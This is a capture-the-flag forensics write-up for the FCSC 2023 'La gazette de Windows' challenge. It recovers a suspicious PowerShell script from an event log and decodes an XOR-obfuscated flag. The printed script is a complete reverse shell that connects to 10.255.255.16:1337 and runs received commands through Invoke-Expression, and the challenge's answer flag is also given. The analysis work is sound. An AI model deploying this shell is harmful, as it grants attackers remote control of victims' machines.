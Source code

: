 # La gazette de Windows
# Original challenge 🇫🇷
Il semblerait qu'un utilisateur exécute des scripts Powershell suspects sur sa machine. Heureusement cette machine est journalisée et nous avons pu récupérer le journal d'évènements Powershell. Retrouvez ce qui a été envoyé à l'attaquant.
# Translated challenge 🇺🇸
It looks like a user is running suspicious Powershell scripts on their machine. Fortunately this machine is logged and we were able to recover the Powershell event log. Find what was sent to the attacker.
# Solution
We are dealing with an .evtx file, we can use the Windows Event Viewer to explore it.

Search for Windows Event Viewer and open it.

Open the Microsoft-Windows-PowerShell4Operational.evtx file.

![Capture d'écran 2023-05-12 024513](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/blob/main/screenshots/Screenshot_2023-05-12_024513.png)


We have 9 events of which one is a warning

By exploring these 9 events, we can notice that the user created some script blocks.

The most interesting one is 
```
do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()
```

1- This PowerShell script block creates a TCP client that connects to the IP address '10.255.255.16' on port 1337. It waits in a loop until the connection is successful and once it is, it retrieves a network stream and creates a stream writer to send data to the connected endpoint.

2- The script block also defines a function called "WriteToStream" which takes a string as input and sends it to the connected endpoint.

3- It then creates a byte array and uses a loop to populate it with values derived from the hexadecimal values in the variable "$l". The loop XORs each value with its index to derive the original value, and concatenates these values into a string which is passed to the "WriteToStream" function.

4- The script block then enters another loop, where it waits to read data from the network stream. When data is received, it converts the received bytes into a string, executes the string as a PowerShell command, captures any output, and sends the output back to the connected endpoint using the "WriteToStream" function.

5- Finally, the script block closes the stream writer. This script block could be part of a larger script implementing a remote command shell.

We don't need to have the server at the IP address available to reconstruct what was really sent.

We can skip the connexion part and create on powershell a script block with only the interesting part of the code as the following :
```
$ScriptBlock = {

    $StreamWriter = New-Object IO.StreamWriter($NetworkStream)
    function WriteToStream ($String) {
        [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
        $StreamWriter.Write($String + 'SHELL> ')
        $StreamWriter.Flush()
    }
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
	Write-Output $s
    WriteToStream $s

    $StreamWriter.Close()
}
Invoke-Command -ScriptBlock $ScriptBlock
```
![screenshot](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/blob/main/screenshots/events_result.png)

After the execution, we have the flag : FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}                                                  
